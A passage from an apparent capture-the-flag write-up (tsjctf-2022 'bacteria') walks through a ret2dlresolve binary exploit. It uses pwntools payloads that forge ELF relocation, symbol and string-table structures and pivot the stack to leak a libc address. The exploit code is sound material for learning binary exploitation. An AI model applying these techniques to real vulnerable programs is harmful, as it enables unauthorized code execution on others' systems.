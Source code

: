 And with the next read(), it will write to the STRTAB address so we have the following code:

```python
# Write STRTAB structure
payload = p64(0)                         # Check first, change later
payload += p64(mov_rsi_rbp_read)
payload += STRTAB_struct
p.send(payload)
```

We will get the reloc_arg to check if all the structures are set properly or not:

```python
print(reloc_arg)
```

and run with GDB attached for debuging:

![check_reloc_arg.png](/static/images/tsjctf-2022/bacteria/check_reloc_arg.png)

We can see that it send 0x20 bytes which fit read() so we are sure that every payload is sent correctly. Let's run until we have inputed all struct and check with the reloc_arg:

![check_structures_position.png](/static/images/tsjctf-2022/bacteria/check_structures_position.png)

We can see that all of our struct are in the correct position. Now we just need an address of r_offset to puts the resolved function to it. We want when it has just resolved, it will print out the resolved address immediately. Which means when we have just write STRTAB structure, we will write the dlresolver to r_offset. After it resolve, it will print out the libc address which rsi is holding the pointer.

So the dlresolver and r_offset is in the same address. Because we don't want the JMPREL, SYMTAB and STRTAB structure to be overwriten or it might cause error. And also because dlresolve will use the lower stack address to resolve this so choosing lower address is an great idea. We will use address of `rw_section - 0x50` for both r_offset and dlresolver so the stage 3 will change to this:

```python
JMPREL = 0x400300

Elf64_Rela_addr = rw_section + 0x40
reloc_arg = int( (Elf64_Rela_addr - JMPREL) / 24 )

r_offset = p64(rw_section - 0x50)         # Change here
r_info = p64((symbol_number << 32) | 0x7)
# r_addend is null and stack is null already so we don't need to write this,
# also because we run out of 0x10 bytes we can write
Elf64_Rela_struct = r_offset + r_info
```

And the rbp when writing STRTAB structure become this:

```python
# Write STRTAB structure
payload = p64(rw_section - 0x50)         # Fake rbp, write and jump to ret2dlresolve address
payload += p64(mov_rsi_rbp_read)
payload += STRTAB_struct
p.send(payload)
```
